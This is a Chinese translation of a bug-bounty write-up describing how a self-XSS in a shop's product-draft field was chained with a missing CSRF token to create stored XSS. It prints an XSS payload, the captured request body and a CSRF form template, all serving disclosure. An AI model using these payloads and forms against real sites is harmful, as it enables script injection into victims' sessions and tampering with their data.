

# [复制]自我 XSS 和 CSRF 攻击导致存储 XSS

> 原文：<https://infosecwriteups.com/duplicated-self-xss-csrf-attack-lead-to-stored-xss-1a1db9f9bb90?source=collection_archive---------1----------------------->



嗨伙计们

这是我的 Flex，在这篇文章中，我将分享一个私人程序的新漏洞，让我们称之为“example.com ”,该漏洞是一个自我 XSS 与 CSRF 攻击，导致存储 XSS。

# 发现的故事

目标是一个商店网站，当我测试添加产品的功能时，我开始添加我可爱的 XSS 有效负载**<SVG/onload = alert(0)>**到处都是，其中一个字段工作，并给我一个弹出窗口，因为字段的输入是错误的，网站告诉我这个值是错误的，所以这是一个自我 XSS 我试图找到点击劫持，使其可利用，但没有办法与点击劫持， 几分钟后，我试图找到一个 CSRF 攻击，所以我打开我的打嗝，捕捉到更改请求，我注意到没有 CSRF 令牌或任何 CSRF 保护，所以我试图利用这两个错误一起获得存储的 XSS，编辑后的请求的主体是这样的

```
{"basePage":{"draftIds":["victim_id"],"wsId":"-1","wsType":"-1"},"mode":"INDIVIDUAL","action":"SAVE","layerName":"EDITPANE","variation":null,"currencyInfo":{"currencySymbolLeft":true,"singularName":"U.S. dollars","moneySymbol":"$","decimalSymbol":".","groupingSymbol":",","gS":",","decimalPlaces":"2","currencyCode":"USD","pluralName":"U.S. dollar"},"singleList":true,"listingMode":"AddItem","fields":{"upc":"XSS_payload","":"true"},"updateRequired":true,"customFields":{},"byPassUpdate":false,"sellerType":"C2C","isAdd":"","saveUlsi":true,"edpCrNew":false,"deletedFields":[],"updateCrNew":true,"recentCategories":null,"suggestedCategories":["13718:Collectibles > Arcade, Jukeboxes & Pinball > Arcade Gaming > Replacement Parts","57988:Clothing, Shoes & Accessories > Mens Clothing > Coats & Jackets","217:Sports Mem, Cards & Fan Shop > Sports Trading Cards > Other Sports Trading Cards","48:Collectibles > Photographic Images > Contemporary (1940-Now) > Other Contemporary Photographs","75708:Toys & Hobbies > Action Figures > TV, Movie & Video Games"],"customAttributes":{"PL_OPT_IN":"0","PL_SELLER_ELIGIBLE":"1","PL_FORMAT_ELIGIBLE":"0","PL_CATEGORY_ELIGIBLE":"0","PL_ALREADY_OPTED":"0"},"draftMode":"Listing","restricted":false,"customPreference":{"preferences":{"scheduleStartTime":true,"reservePrice":true,"sellAsLot":true,"privateListing":true,"":true,"additionalPaymentOptions":true,"additionalCheckoutInstructions":true,"salesTax":true,"additionalReturnPolicyDetails":true,"internationalShipping":true,"shippingExclusionList":true,"shippingRateTable":true},"sellerDetails":["NO_STORE_SUBSCRIPTION","NO_SHIPPING_DISCOUNTS","NON_SM_SELLER"]},"payments20":false,"isvShown":false}
```

所以，我只是希望受害者草案 id 使用 CSRF 攻击来更改草案信息，并添加 XSS 有效载荷，我使用的 CSRF 代码

```
<form action="https://exampl.com/endpoint" method="POST">
    <input type="hidden" name="clientType" value="Firefox:66:">
    <input type="hidden" name="request" value='[add_decode_value_here]'>
    <input type="submit" value="send">
</form>
```

当我使用这段 HTML 代码，并在上面添加带有受害者草稿 ID 和 XSS 有效载荷 BOOOM 的请求体时！！字段值将被更改，当用户再次访问他的页面时，XSS 有效负载将被执行。

对我很好但是也是复制的:_(。

结束了。